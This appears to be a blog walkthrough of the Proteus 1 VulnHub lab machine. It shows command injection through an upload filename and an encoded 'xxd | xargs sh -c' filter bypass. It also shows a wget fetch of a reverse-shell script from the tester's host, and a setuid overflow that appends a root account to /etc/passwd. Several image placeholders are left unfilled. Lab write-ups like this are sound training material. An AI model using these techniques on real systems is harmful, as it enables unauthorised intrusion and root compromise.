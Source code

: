 # Proteus 1 Vulnhub Walkthrough

## Intro

Below you will find a walkthrough of the Proteus 1 VM. This was a fun and challenging machine. This page is full of fun spoilers, so if you're 
still attemping to root the machine, try harder :). Without further ado, let's dive in. 

## Download and Find It

Download the Proteus VM from [VulnHub](https://www.vulnhub.com/entry/proteus-1,193/), load it up, and pick your favorite tool. For quick identification, I use nmap.  

`nmap 192.168.2.0/24 -sP Starting Nmap 7.70 ( https://nmap.org )  `  
`Nmap scan report for Proteus (192.168.2.180)Host is up (0.23s latency).`

## Start Enumeration

I use a series of scripts to gather most of the information for me. Reconscan by Mike Czumak does an nmap script and starts work on additional modules depending on what ports are determined to be open. There are three main ports open: 22, 80, and 5355

<INSERT CODE/IMAGE HERE>

Nikto and Dirb scans are kicked off for port 80. Let's continue exploring the website.

## Proteus

Fire up Burp and head to the web page. First notes are that there is a file upload, which is always fun to play with, and a login. Some quick auth bypass tries and sqlmap bear no fruit, so I focus on the main function and upload some files. If you upload something that doesn't fit the MIME type, Proteus gets mad at you and rejects. When you get a successful upload, Proteus brings you to the /samples page. 

<IMAGE HERE>

Proteus changes our file name to a base64 encoded value, runs strings, and runs objdump on our file. That's nice of them. We can also see uder objdump our file name (stored in /home/malwareadm/samples/). 

Looking at the POST in Burp, we have name="file"; and filename="file.bin" that we can mess with. I tried messing around wtih base64 encoded filenames first, but it's always better to keep it simple. Test for command injection in the filename parameter. filename="file.bin;id" works when you reload your webpage. 

## Messing With Command Injection

This part gave me quite a bit of trouble. The site takes the parameter of filename (currently set to file.bin;id), converts it to a random string (and keeps the extension if possible), and then runs base64 on it. It is useful that we know the name of our file as we can use it to access our own payloads on the server if  need be. 

I needed to generate a 'bad characters' list as some commands would not pass through. The website makes this pretty simple and fails obviously when testing. 

Good chars <IMAGE>
Bad chars <IMAGE>

Most of the commands that would give us further access require either '/' for files or a '.' for an ip address. I could open a port with nc, but I couldn't actually connect or interact with it afterwards. Looking back at the good character list, we have access to pipe. Essentially, if we can string together a set of commands, encoded or otherwise, we can create complex commands for execution.

After much trial and error I'm left with the following: `echo <hex encoded command> | xxd -r -p | xargs -i{} sh -c '{}'`

Taking hex encoded values, I can pass it to xxd (which also handles the encoding), and finally pass it to xargs which can handle the execution by bassing to sh. It was easy passing encoded values; however, they wouldn't execute (or if they did it was blind). I also ran into an issue that the server changes the filename parameter to all lower case. Initially I messed with xargs -I, but the server didn't like it. The xargs -i[replace] functionality is apparently deprecated (check man) in favor of -I, so I'm glad I had a version (4.7.0) that still had it. 
 
## Arbitrary Command Injection

It's easy to create hex encoded commands. I also created a quick script to help double check my works and possibly handle other use cases (though be wary of my shaky script abilites). Let's check again to see everything working. Here is the payload with 'cat /etc/passwd'

<IMAGE>

Now we can try to put a reverse shell in. The current account doesn't have write access to the web directory, so I needed to put it somewhere else. wget supports this. 
`wget -O /tmp/simpleshell.py http://<IP ADDR>/simpleshell.py`
Encode it, send it, and double check the file was recieved. You can always look at your own apache access.log to see if the GET was successful, or you can 'ls' the /tmp directory. If you check the /tmp directory with permissions, you can see they were nice enough to even grant our shell execute permissions. 

<IMAGE>

So now all I have to do is throw up a listner and execute the shell.

## >_Terminal

Once inside you can explore around to your heart's content. There are some config files with credentials and a test admin login that can be used for the web page. There is even a RSA private key (password protected). Keep exploring and you'll eventually find a quaint file: admin_login_logger. Check it's permissions and notice anything special? The sticky bit is set and the owner is root. I nc it over to my machine for further testing. 

admin_login_logger takes a parameter and writes it to a log file. 
<IMG>
Nothing too special, but user input is a fickle thing. I generated a junk pattern and pass it into the logger to see interestinng effects. 
<IMG>

An overflow occurs and I actually overwrite the file location and file name. Cool. So I have the ability to write to any file as root with a certain space for a payload. A few things to note about the overflow: it starts user input with a new line, the user input is appended to the end of the file, the user has limited space for the payload, and the user has limited space in the file name for the path and file. Calculating the pattern offset is 456 based on the name of the file created when I hit the first overflow. 
 
With these notes in mind, I can craft a payload. I fire up python interpreter for some quick work. 
`def pad(len):
    pad="A"*len
    return pad
`
`def gen():
    payload=userInput + pad(patternCustomLen-len(userInput)) + fileToOverwrite
    print payload
`
I initially thought I could overwrite the /etc/passwd file and remove the root account password, but this is when I found that the overflow just appends user input to the end. It also doesn't handle new lines very well either. Another easy thing to do is add an account to the machine. I crafted a user without a password and the machine still wouldn't let me su. Then, hashed a password (I used openssl passwd), created a user, su ... and fail because the overflow overwrote the :shell: section of /etc/passwd and the machine didn't know what to give me. 
 
Finally, here is the user input section of the final payload: `<username>:<password>:0:0::/tmp/`
 
Now to su <username>, type the password, and pop to a root shell.
 
<IMG>
 
Now you can find the flag and display it. 
 
<IMG>
 
##  Final comments

Overall I had a lot of, albeit frustrating, fun. I needed the practice and learned some things along the way. The system gives a lot of leeway to the user because it executes commands in so many places and even grants them execute rights. Crafting the original injection is probably the hardest part. Now onto the next one.

